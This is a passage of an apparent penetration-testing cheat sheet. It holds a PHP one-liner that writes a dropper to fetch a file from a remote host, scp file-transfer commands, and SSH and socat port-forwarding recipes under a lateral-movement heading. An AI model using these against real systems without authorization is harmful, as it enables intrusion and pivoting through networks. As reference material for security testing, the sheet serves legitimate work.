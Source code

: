 ```powershell
echo "<?php file_put_contents('nameOfFile', fopen('http://192.168.1.102/file', 'r')); ?>" > down2.php
```
#### [](#header-4) SCP
```powershell

# Copy a file:
scp /path/to/source/file.ext username@192.168.1.101:/path/to/destination/file.ext
```
```powershell

# Copy a directory:
scp -r /path/to/source/dir username@192.168.1.101:/path/to/destination
```

## [](#header-2)PIVOTING OR LETERAL MOVEMENT

#### [](#header-4) SSH Local Port Forward
```powershell
ssh [User]@[Target] -L 127.0.0.1:8888:[TargetIp]:[TargetPort]
```
#### [](#header-4) SSH Dynamic Port Forward
```powershell
ssh -D [LocalPort] user@host
nano /etc/proxychains.conf
127.0.0.1 [LocalPort]
```
#### [](#header-4) Socat Port Forward
```powershell
./socat tcp-listen:5000,reuseaddr,fork tcp:[TargetIp]:5001
```
#### [](#header-4) Searching
```powershell
grep pattern [FileName]
grep -r pattern [Directori]
locate [FileName]
```
